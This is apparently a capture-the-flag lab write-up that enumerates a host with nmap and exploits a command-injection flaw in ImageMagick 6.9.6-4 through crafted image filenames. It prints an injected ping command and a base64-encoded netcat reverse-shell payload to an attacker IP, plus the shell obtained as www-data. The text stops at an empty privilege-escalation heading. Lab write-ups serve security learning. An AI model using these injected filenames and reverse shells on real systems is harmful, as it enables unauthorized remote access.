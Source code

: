 ## First Enumeration with nmap 

```shell
# Nmap 7.94SVN scan initiated Mon Feb 19 11:40:13 2024 as: nmap -sC -sV -T4 -oN service.nmap -p 80,22 -Pn 192.168.239.178
Nmap scan report for 192.168.239.178
Host is up (0.17s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 62:36:1a:5c:d3:e3:7b:e1:70:f8:a3:b3:1c:4c:24:38 (RSA)
|   256 ee:25:fc:23:66:05:c0:c1:ec:47:c6:bb:00:c7:4f:53 (ECDSA)
|_  256 83:5c:51:ac:32:e5:3a:21:7c:f6:c2:cd:93:68:58:d8 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: ImageMagick Identifier
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Feb 19 11:40:27 2024 -- 1 IP address (1 host up) scanned in 14.60 seconds
```

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/32e34f3a-8717-4d6e-b959-a8ebb1447d7a)

a web server is running on port 80, checking it on a browser we got an `Imagemagick identifier`. 

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/b53ed14a-f46a-463e-9255-21d372bf3057)

uploaded an image file and we can see the version of this service running is `6.9.6-4`.

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/a21b78b9-40e7-46f7-b753-121e9aeec290)

searching for exploit on this service, we can see there's an RCE vuln present read about [exploit](https://github.com/ImageMagick/ImageMagick/issues/6339). 

```shell
┌──(n16hth4wk👽n16hth4wk-sec)-[~/Documents/PGP/Image]
└─$ cp ~/Pictures/1.png .
                                                                                                                                                            
┌──(n16hth4wk👽n16hth4wk-sec)-[~/Documents/PGP/Image]
└─$ cp 1.png '|1"`ping 192.168.45.212`".png'
```
modify the name of an image and inject an arbitary code to ping our host. 

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/4e80705f-9c83-4cf9-a4b5-3f8480c9655b)

upload the modified image. 

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/baa494d9-ee75-475a-aedb-f14c4c0225af)

we got a ping back, let's spawn a reverse shell.

```shell
#base64 encode payload
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 192.168.45.212 80 >/tmp/f

cm0gL3RtcC9mO21rZmlmbyAvdG1wL2Y7Y2F0IC90bXAvZnxzaCAtaSAyPiYxfG5jIDE5Mi4xNjguNDUuMjEyIDgwID4vdG1wL2Y=

┌──(n16hth4wk👽n16hth4wk-sec)-[~/Documents/PGP/Image]
└─$ cp 1.png '|1"`echo cm0gL3RtcC9mO21rZmlmbyAvdG1wL2Y7Y2F0IC90bXAvZnxzaCAtaSAyPiYxfG5jIDE5Mi4xNjguNDUuMjEyIDgwID4vdG1wL2Y= | base64 -d|bash`".png'
```
first we base64 encode the reverse shell payload. fire up ncat listener

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/039154d6-b9ab-4e95-ad25-a1dd907e9ceb)

Uploaded the image.


```shell
┌──(n16hth4wk👽n16hth4wk-sec)-[~/Documents/PGP/Image]
└─$ ncat -lnvp 80                                                
Ncat: Version 7.94SVN ( https://nmap.org/ncat )
Ncat: Listening on [::]:80
Ncat: Listening on 0.0.0.0:80
Ncat: Connection from 192.168.239.178:55626.
sh: 0: can't access tty; job control turned off
$ whoami 
www-data
$
```
check back listener and we got a reverse shell as `www-data`. 


## Privilege Escalation 


